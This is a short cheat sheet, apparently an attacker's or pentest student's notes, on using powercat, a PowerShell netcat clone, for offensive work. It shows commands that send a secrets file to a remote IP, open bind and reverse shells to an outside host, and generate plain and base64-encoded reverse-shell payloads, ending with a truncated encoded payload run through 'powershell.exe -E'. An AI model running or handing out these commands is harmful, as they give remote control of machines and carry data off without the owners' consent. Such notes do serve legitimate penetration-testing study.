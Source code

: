 > Netcat powershell version. It’s a simple utility which reads and writes data across network connections using DNS or UDP protocol.


Copy `powercat.ps1` to current directory
```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```

#File_Sharing 

Send a file
```powershell
powercat -c 192.168.69.123 -p 1234 -i C:\Users\hentaisalesman\Desktop\secrets.txt
```

#Shell_Access #Remote_Access

Set up a bind shell listener
```powershell
powercat -l -p 443 -e cmd.exe
```

Send a reverse shell
```powershell
powercat -c 192.168.69.123 -p 4444 -e powershell 
```

Creating a powercat stand-alone payload
```powershell
powercat -c 192.168.69.123 -p 443 -e cmd.exe -g > reverseshell.ps1
```

Executing a powercat stand-alone payload
```powershell
./reverseshell.ps1
```

Creating an encoded stand-alone payload with powercat
```powershell
powercat -c 10.11.0.69 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

Executing an encoded stand-alone payload using PowerShell
```powershell
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAH IAYQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzACkACgAgACAAIAAgACQAYwAsACQAbAAsACQAcAAs ACQAdAAgAD0AIAAkAEYAdQBuAGMAUwBlAHQAdQBwAFYAYQByAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAG8AYg BhAGwAOgBWAGUAcgBiAG8AcwBlACkAewAkAFYAZQByAGIAbwBzAGUAIAA9ACAAJABUAHIAdQBlAH0ACgAgACAA IAAgACQARgB1AG4AYwBWAGEAcgBzACAAPQAgAEAAewB9AAoAIAAgACAAIABpAGYAKAAhACQAbAApAAoAIAAgAC AAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFYAYQByAHMAWwAiAGwAIgBdACAAPQAgACQARgBhAGwAcwBl AAoAIAAgACAAIAAgACAAJABTAG8AYwBrAGUAdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdA BlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAGMAcABDAGwAaQBlAG4AdAAKACAAIAAgACA
```